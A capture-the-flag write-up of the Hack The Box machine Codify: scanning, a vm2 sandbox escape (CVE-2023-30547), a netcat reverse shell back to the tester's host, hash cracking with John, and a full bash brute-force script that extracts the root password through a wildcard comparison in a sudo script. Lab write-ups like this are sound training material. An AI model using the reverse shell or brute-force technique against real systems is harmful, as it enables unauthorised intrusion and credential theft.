# Codify Writeup - by Thammanant Thamtaranon  
- Codify is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.239`  
  
- The scan revealed ports 22 (SSH), 80 (HTTP), and 3000 (Node.js) open.  
- We added `codify.htb` to our `/etc/hosts` file for proper hostname resolution.

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://codify.htb`  
  
- The scan revealed standard paths plus an additional `/server-status/` endpoint.  
- Manual inspection revealed a `/limitations` path in the HTML source.  
- We then performed virtual host enumeration using:  
  `ffuf -u http://codify.htb -H "Host: FUZZ.codify.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
- No subdomains were found.  
- The website featured a Node.js code editor with sandboxed execution.  
- Examining page source revealed the server was using `vm2 3.9.16`.  
  

## Exploitation  
- Researching vm2 3.9.16, we found **CVE-2023-30547**, a sandbox escape vulnerability.  
- We tested the vulnerability with a simple `id` command first:  
  
- Successful execution confirmed the vulnerability, so we established a reverse shell with:  
  `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.11 4444 > /tmp/f`  
- This provided access as the `svc` user.  
  
- Examining `/etc/passwd` revealed a local user `joshua`.  
  
- We discovered `tickets.db` and identified it as SQLite database:  
  `file tickets.db`  
  `sqlite3 tickets.db`  
- Found hashed credentials for user `joshua`:  
  
- Cracked the hash using John:  
  `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`  
  
- Using these credentials, we SSH'd in as `joshua` and obtained the **user flag**.

## Privilege Escalation  
- Checking sudo privileges revealed `joshua` could run `/opt/scripts/mysql-backup.sh` as root:  
  `sudo -l`  
  
- The script contained a vulnerable password comparison using pattern matching:  
  
- We wrote and executed a brute-force script to exploit the pattern matching weakness:  
```bash
#!/bin/bash
charset="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{}|;:',.<>/?\`~"
password=""
found=0
while [ $found -eq 0 ]; do
    for (( i=0; i<${#charset}; i++ )); do
        char=${charset:$i:1}
        attempt="$password$char*"
        echo "Trying: $attempt"
        echo "$attempt" | sudo /opt/scripts/mysql-backup.sh 2>/dev/null | grep -q "confirmed" && {
            password+=$char
            echo "Found so far: $password"
            break
        }
        if [ $i -eq $((${#charset}-1)) ]; then
            found=1
            echo "Final password: $password"
        fi
    done
done
```
- After obtaining the root password, we escalated privileges:  
  `su root`

- Obtained the **root flag**
